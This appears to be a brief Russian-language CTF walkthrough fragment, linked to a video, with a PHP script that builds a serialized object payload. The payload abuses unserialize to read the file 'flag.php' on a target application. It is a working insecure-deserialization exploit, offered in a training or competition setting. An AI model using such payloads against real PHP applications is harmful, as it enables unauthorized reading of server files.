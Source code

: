 ﻿На видео: [2:53:38](https://vk.com/video-114366489_456239197?t=2h53m38s)

Собрать читалку файлов на unserialize

```php
<?php

include './index.php';

$cart = new Cart('lolkek');
$item = new Item('flag.php',150);
$cart->addItem($item);
$user = new User("asdasdsad", "sadasdas", "adfsdafsd", "asdsada", $cart);
unserialize(serialize($user));

echo urlencode(serialize($user));
```
